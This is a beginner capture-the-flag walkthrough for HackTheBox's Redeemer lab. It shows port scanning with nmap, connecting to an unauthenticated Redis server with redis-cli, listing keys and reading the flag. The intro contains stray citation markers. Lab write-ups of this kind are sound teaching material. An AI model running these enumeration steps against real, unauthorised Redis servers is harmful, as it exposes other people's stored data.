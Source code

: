 ## Redeemer: HackTheBox Starting Point Walkthrough

**Intro**

What's up, hackers! Welcome back to Ctrl Alt Hack. In this video, we're diving into the fourth box in HackTheBox's Starting Point: Redeemer. This challenge introduces us to Redis, an in-memory database. [cite: 3, 4] In-memory databases are all about speed, storing data in RAM for lightning-fast access. [cite: 3, 4, 5, 6, 7] We'll explore how to enumerate a Redis server and grab that sweet flag.

**Enumeration**

Let's start with our usual `ping` to check connectivity:

```bash
ping <target_IP>
```

Now that we know the target is alive, let's scan for open ports using `nmap`:

```bash
sudo nmap -p- -sV <target_IP>
```

This scan reveals port 6379, which is the default port for Redis. Redis is a NoSQL key-value store, often used for caching.

**Exploitation**

To interact with Redis, we'll use the `redis-cli` command-line utility. If you don't have it, install it:

```bash
sudo apt install redis
```

For a list of options, use the `help` flag:

```bash
redis-cli --help
```

Now, let's connect to the Redis server:

```bash
redis-cli -h <target_IP>
```

Once connected, we can gather information about the server using the `info` command.

```
redis-cli -h <target_IP>
info
```

To select the database, we use the `select` command followed by the database index:

```
select 0
```

To list all keys in the database, we use the `keys *` command:

```
keys *
```

Finally, to retrieve the value of a key, we use the `get` command:

```
get flag
```

This will display the flag.

**Claiming the Flag**

Copy the flag and submit it on HackTheBox to complete the challenge.

**Outro**

And that's how you conquer Redeemer! Redis is a powerful tool, and understanding how to interact with it is crucial. If you found this walkthrough helpful, be sure to like, subscribe, and hit that bell icon for more Ctrl Alt Hack content. Stay curious, keep hacking, and I'll see you in the next video!